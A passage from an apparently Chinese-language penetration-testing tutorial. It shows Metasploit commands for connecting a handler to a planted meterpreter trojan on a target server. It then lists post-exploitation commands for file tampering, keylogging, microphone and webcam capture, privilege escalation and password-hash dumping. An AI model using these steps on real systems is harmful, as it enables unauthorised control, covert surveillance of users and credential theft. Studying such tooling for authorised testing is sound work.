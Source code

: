 ##### 连接木马
开启msf，启用exploit/multi/handler模块。
```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/bind_tcp
show options
set RHOST 10.0.0.1
set LPORT 12345  
exploit
```
![](/upload_image/20170801/6.png)

注意：这里set的payload跟生成木马使用的payload要一致，其余的参数根据选择的payload而填写。

#### meterpreter shell
当我们拿到目标服务器的meterpreter_shell后，可以进行很多操作。
```bash
backgroud 将msf进程放到后台
session -i 1 将进程拖回前台运行
run vnc 远程桌面的开启
```
文件管理功能：
```bash
Download     下载文件
Edit          编辑
cat           查看
mkdir         创建
mv            移动
rm            删除
upload        上传         
rmdir         删除文件夹
```
网络及系统操作：
```bash
Arp          看ARP缓冲表
Ifconfig     IP地址网卡
Getproxy     获取代理
Netstat      查看端口链接
Kill         结束进程
Ps           查看进程
Reboot       重启电脑
Reg          修改注册表
Shell        获取shell
Shutdown     关闭电脑
sysinfo      获取电脑信息
```
用户操作和其他功能讲解:
```bash
enumdesktops     用户登录数
keyscan_dump　　 键盘记录－下载
keyscan_start　　键盘记录　－　开始
keyscan_stop 　　键盘记录　－　停止
Uictl　　　　　　获取键盘鼠标控制权
record_mic　　　 音频录制
webcam_chat　　　查看摄像头接口
webcam_list　　　查看摄像头列表
webcam_stream　　摄像头视频获取
Getsystem　　　　获取高权限
Hashdump　　　   下载ＨＡＳＨ
```
